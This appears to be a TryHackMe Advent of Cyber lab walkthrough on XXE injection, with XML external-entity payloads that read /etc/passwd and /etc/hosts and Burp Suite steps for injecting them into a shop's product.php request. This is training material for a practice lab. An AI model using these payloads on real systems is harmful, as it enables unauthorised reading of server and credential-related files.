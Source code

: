 # Title : SOC-mas XX-what-ee?
steps:
create xml file put this code:
```xml
<people> 
	<name>Glitch</name> 
	<address>Wareville</address> 
	<email>glitch@wareville.com</email> 
	<phone>111000</phone> 
</people>
<!DOCTYPE people [
   <!ELEMENT people(name, address, email, phone)>
   <!ELEMENT name (#PCDATA)>
   <!ELEMENT address (#PCDATA)>
   <!ELEMENT email (#PCDATA)>
   <!ELEMENT phone (#PCDATA)>
]>
<!DOCTYPE people [ 
<!ENTITY ext SYSTEM "http://tryhackme.com/robots.txt"> ]> 
<people> 
	<name>Glitch</name> 
	<address>&ext;</address> 
	<email>glitch@wareville.com</email> 
	<phone>111000</phone> 
</people>

<!DOCTYPE people[
   <!ENTITY thmFile SYSTEM "file:///etc/passwd">
]>
<people>
   <name>Glitch</name>
   <address>&thmFile;</address>
   <email>glitch@wareville.com</email>
   <phone>111000</phone>
</people>
```

open burp suite community edition then:
in settings > burp browser > select allow burp browser run without sandbox
now go to proxy > open browser > past url of application
select jolly's cap and see the proxy request > send it to repeater using ctrl+r > click send
after this forward request so we can see other page on application
add to wishlist
intercept request >  send on repeater
go to cart > intercept request > forward request
same for proceed to checkeout > repeater

after completing checkout  and open link in new tab shown in left corner

put is snippet in product.php repeater request above xml
```xml 
<!--?xml version=""1.0 ?-->
<!DOCTYPE foo[<!ENTITY payload SYSTEM "/etc/hosts">]
<wishlist> 
<user_id>1</user_id> 
<item> 
<product_id>&payload;</product_id> 
</item> 
</wishlist> 
```

url/wishes/wish_21.txt to access this site:
```xml 
<!--?xml version=""1.0 ?-->
<!DOCTYPE foo[<!ENTITY payload SYSTEM "/var/www/html/wishes/wish">]
<wishlist> 
<user_id>1</user_id> 
<item> 
<product_id>&payload;</product_id> 
</item> 
</wishlist> 
```
#AOC 